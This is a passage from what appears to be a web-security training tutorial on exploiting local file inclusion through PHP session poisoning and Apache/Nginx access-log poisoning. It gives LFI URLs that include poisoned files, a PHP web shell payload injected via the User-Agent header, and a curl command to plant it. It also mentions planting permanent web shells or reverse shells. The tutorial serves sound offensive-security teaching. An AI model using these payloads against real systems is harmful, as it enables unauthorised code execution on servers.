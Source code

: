 Finally, we can include the session file and use the &cmd=id to execute a commands:

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

**Note**: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with /var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.


### Server log poisoning

Both Apache and Nginx maintain various log files, such as **access.log** and **error.log**.

The access.log file contains various information about all requests made to the server, including each request's User-Agent header. As we can control the User-Agent header in our requests, we can use it to poison the server logs as we did above. 

Once poisoned, we need to include the logs through the LFI vulnerability, and for that we need to have read-access over the logs. Nginx logs are readable by low privileged users by default (e.g. www-data), while the Apache logs are only readable by users with high privileges (e.g. root/adm groups). However, in older or misconfigured Apache servers, these logs may be readable by low-privileged users.

By default, Apache logs are located in **/var/log/apache2/** on Linux and in **C:\\xampp\\apache\\logs** on Windows, while Nginx logs are located in **/var/log/nginx/** on Linux and in **C:\\nginx\\log\\** on Windows.

However, the logs may be in a different location in some cases, so we may use an **LFI Wordlist to fuzz** for their locations, as will be discussed in the next section.

So, let's try including the Apache access log from /var/log/apache2/access.log, and see what we get:

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

For example, the log contains the remote IP address, request page, response code, and the User-Agent header. As mentioned earlier, the User-Agent header is controlled by us through the HTTP request headers, so we should be able to poison this value.

**Tip**: Logs tend to be huge, and loading them in an LFI vulnerability may take a while to load, or even crash the server in worst-case scenarios. So, be careful and efficient with them in a production environment, and don't send unnecessary requests.

To do so, we will use Burp Suite to intercept our earlier LFI request and modify the User-Agent header to the string "Apache Log Poisoning".

As expected, our custom User-Agent value is visible in the included log file. Now, we can poison the User-Agent header by setting it to a basic PHP web shell (<?php system($_GET['cmd']); ?>).

We may also poison the log by sending a request through cURL, as follows:

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```
